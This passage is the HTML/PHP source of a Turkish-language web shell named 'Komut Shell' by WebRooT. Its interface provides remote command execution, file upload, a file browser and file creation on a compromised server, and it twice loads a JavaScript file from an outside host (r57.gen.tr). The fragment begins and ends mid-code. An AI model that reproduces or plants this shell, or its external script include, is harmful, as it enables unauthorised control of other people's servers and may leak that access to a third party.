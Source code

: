 </script>
</head>
<body bgcolor=black onload="sf();" vlink=white alink=white link=white>
<table border=1 width=100% height=100%>
<td width=15% valign=top>
<SCRIPT SRC=http://www.r57.gen.tr/yazciz/ciz.js></SCRIPT>
<form name="extras"><br>
<center><b>Hizli Komutlar</b><br>

<div style='margin: 0px;padding: 0px;border: 1px inset;overflow: auto'>
<?php
        foreach ($functions as $name => $execute) {
            print '&nbsp;<input type="button" value="' . $name . '" onclick="' . $execute . '"><br>';
        }
?>

</center>

</div>
</form>
<center><b>Komut Gecmisi</b><br></center>
<div id="history" style='margin: 0px;padding: 0px;border: 1px inset;width: 100%;height: 20%;text-align: left;overflow: auto;font-size: 10px;'></div>
<br>
<center><b>Hakkinda</b><br></center>
<div style='margin: 0px;padding: 0px;border: 1px inset;width: 100%;text-align: center;overflow: auto; font-size: 10px;'>
<br>
<b><font size=3>Komut Shell</b></font><br>by WebRooT
<br>
Version <?php print $version; ?>
</div>
<SCRIPT SRC=http://www.r57.gen.tr/yazciz/ciz.js></SCRIPT>
</td>
<td width=70%>
<table border=0 width=100% height=100%><td id="tabs" height=1%><font size=0>
<b style="cursor:crosshair" onclick="set_tab('cmd');">[Komut alistir]</b>
<b style="cursor:crosshair" onclick="set_tab('upload');">[Dosya Upload]</b>
<b style="cursor:crosshair" onclick="set_tab('workingdir');">[Dizin Degistir]</b>
<b style="cursor:crosshair" onclick="set_tab('filebrowser');">[Dosya Yoneticisi]</b>
<b style="cursor:crosshair" onclick="set_tab('createfile');">[Dosya Olustur]</b>

</font></td>
<tr>
<td height=99% width=100% valign=top><div id="output" style='height:100%;white-space:pre;overflow:auto'></div>

<tr>
<td  height=1% width=100% valign=top>
<div id="commandtab" style='height:100%;white-space:pre;overflow:auto'>
&nbsp;&nbsp;&nbsp;<form name="cmdform" onsubmit="return runcommand(document.cmdform.command.value,'GET');">
<b>Komut Satiri</b>: <input type=text name=command class=cmdthing size=100%><br>
</form>
</div>
</td>
</table>
</td>
</table>
</body>
</html>
<?php
    }
} else {
    print "<center><table border=0  height=100%>
<td valign=middle>